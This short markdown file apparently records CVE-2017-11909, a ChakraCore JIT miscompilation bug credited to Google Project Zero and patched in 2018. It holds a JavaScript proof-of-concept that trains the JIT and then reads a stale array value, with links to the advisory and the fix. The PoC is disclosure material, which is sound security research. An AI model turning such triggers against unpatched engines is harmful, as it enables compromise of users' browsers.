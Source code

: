 # CVE-2017-11909

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(a, b, always_true = true) {
    a[0] = 1234;
    b[0] = 0;

    let arr = a;
    if (always_true) {
        arr = b;
        for (let i = 0; i < arr.length; i++)
            arr[i] = 0;
    }

    let val = arr[0];
    if (val) {
        print(val);  // Must be 0, but prints out 1234
        return true;
    }

    return false;
}

let a = new Uint32Array(1);
let b = new Uint32Array(0x1000);
for (let i = 0; i < 10000; i++) {
    if (opt(a, b)) {
        break;
    }
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11909)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1384)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/0e4566a4c394cb69834719704a05aa17101ae3f5)
